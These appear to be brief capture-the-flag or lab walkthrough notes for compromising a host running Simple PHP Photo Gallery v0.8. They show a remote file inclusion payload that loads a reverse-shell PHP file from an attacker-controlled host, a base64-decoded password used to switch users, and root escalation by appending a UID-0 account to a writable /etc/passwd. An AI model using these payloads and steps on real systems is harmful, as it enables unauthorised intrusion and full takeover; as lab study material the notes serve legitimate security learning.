

_____

IP=192.168.179.58

# 80

Simple PHP Photo Gallery v0.8


https://www.exploit-db.com/exploits/48424


# Remote File Inclusion


```txt
site.com/image.php?img= [ PAYLOAD ]
```

python server 

```txt
site.com/image.php?img=http://AttackIP/rev.php
```

Port 21 revese shell

# PrivEsc



```bash
echo 'U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==' | base64 -d
echo 'SG9ja1N5ZG5leUNlcnRpZnkxMjM=' | base64 -d
HockSydneyCertify123
```

```bash
su michael
```

/etc/passwd file is writeable

```bash
openssl passwd -1 -salt password password
$1$password$Da2mWXlxe6J7jtww12SNG/

echo 'dani:$1$password$Da2mWXlxe6J7jtww12SNG/:0:0:dani:/root:/bin/bash' >> /etc/passwd
```
